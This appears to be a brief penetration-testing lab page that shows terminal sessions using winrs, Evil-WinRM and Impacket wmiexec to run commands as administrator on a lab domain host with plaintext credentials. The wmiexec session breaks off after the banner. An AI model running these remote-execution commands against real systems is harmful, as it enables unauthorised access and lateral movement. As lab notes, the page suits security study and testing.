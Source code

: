 # WinRS

	PS C:\Users\testuser> winrs.exe -r:odin.valhalla.local -u:administrator -p:Pass123! "cmd /c whoami & hostname & ipconfig
	"
	valhalla\administrator
	odin

	Windows IP Configuration


	Ethernet adapter Ethernet0:

	   Connection-specific DNS Suffix  . :
	   Link-local IPv6 Address . . . . . : fe80::d130:77d8:36c:afe%12
	   IPv4 Address. . . . . . . . . . . : 192.168.200.100
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . :

	Tunnel adapter isatap.{82B0F91C-D6B0-48AA-935A-1CCE190951A5}:

	   Media State . . . . . . . . . . . : Media disconnected
	   Connection-specific DNS Suffix  . :

# Evil-WinRM

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ evil-winrm -i 192.168.200.100 -u administrator -p Pass123!                                                                                     1 ⚙

	Evil-WinRM shell v3.2

	Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

	Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

	Info: Establishing connection to remote endpoint

	*Evil-WinRM* PS C:\Users\Administrator\Documents> pwd

	Path
	----
	C:\Users\Administrator\Documents


	*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
	valhalla\administrator
	*Evil-WinRM* PS C:\Users\Administrator\Documents> 


# Impacket

## wmiexec
	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ /usr/bin/impacket-wmiexec valhalla/administrator:Pass123\!@192.168.200.100                                                                 1 ⨯ 1 ⚙
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
